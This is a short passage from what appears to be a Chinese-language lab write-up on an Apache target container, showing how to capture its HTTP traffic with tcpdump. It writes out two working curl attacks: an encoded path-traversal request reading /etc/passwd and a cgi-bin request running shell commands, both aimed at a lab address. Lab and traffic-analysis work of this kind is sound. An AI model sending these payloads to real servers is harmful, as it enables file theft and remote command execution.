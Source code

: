 ![1748160719557](image/apache靶标/1748160719557.png)
根据容器信息，内部 IP 为 `172.17.0.2`

###### 4.2.2 HTTP流量监控

```bash
# 监听 Docker 网桥上的 HTTP 流量
sudo tcpdump -i docker0 -A -w apache_cve_traffic.pcap 'host 172.17.0.2'
```

在另一个终端执行攻击命令，然后停止抓包：

```bash
# 执行路径遍历攻击
curl "http://10.37.133.3:42286/icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 执行RCE攻击
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; id"
```

![1748160898808](image/apache靶标/1748160898808.png)
